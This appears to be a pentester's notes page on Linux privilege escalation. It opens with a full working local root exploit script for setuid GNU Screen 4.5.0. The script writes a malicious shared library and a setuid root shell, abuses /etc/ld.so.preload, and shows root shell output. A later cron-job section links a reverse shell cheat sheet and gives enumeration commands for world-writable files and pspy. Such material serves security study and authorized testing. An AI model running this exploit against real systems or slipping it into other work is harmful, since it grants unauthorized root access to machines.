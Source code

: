 # Vulnerable services

## Screen Exploit

#### Screen_Exploit_POC.sh

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```

#### Exploit in action
```bash
./screen_exploit.sh 

~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /run/screen/S-mrb3n.

# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(mrb3n)
```


## Cron Job Abuse

[Reverse shell cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

Cron jobs can also be set to run one time (such as on boot). They are typically used for administrative tasks such as running backups, cleaning up directories, etc. The crontab command can create a cron file, which will be run by the cron daemon on the schedule specified. When created, the cron file will be created in /var/spool/cron for the specific user that creates it. Each entry in the crontab file requires six items in the following order: minutes, hours, days, months, weeks, commands. For example, the entry 0 */12 * * * /home/admin/backup.sh would run every 12 hours.

Certain applications create cron files in the /etc/cron.d directory and may be misconfigured to allow a non-root user to edit them.

First, let's look around the system for any writeable files or directories. The file backup.sh in the /dmz-backups directory is interesting and seems like it could be running on a cron job.

### find world writable files
```bash
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

We can confirm that a cron job is running using `pspy` [pspy github](https://github.com/DominicBreuker/pspy), a command-line tool used to view running processes without the need for root privileges. We can use it to see commands run by other users, cron jobs, etc. It works by scanning procfs.

Let's run `pspy` and have a look. The -pf flag tells the tool to print commands and file system events and `-i 1000` tells it to scan procfs every 1000ms (or every second).

```bash
# run pspy
./pspy64 -pf -i 1000
```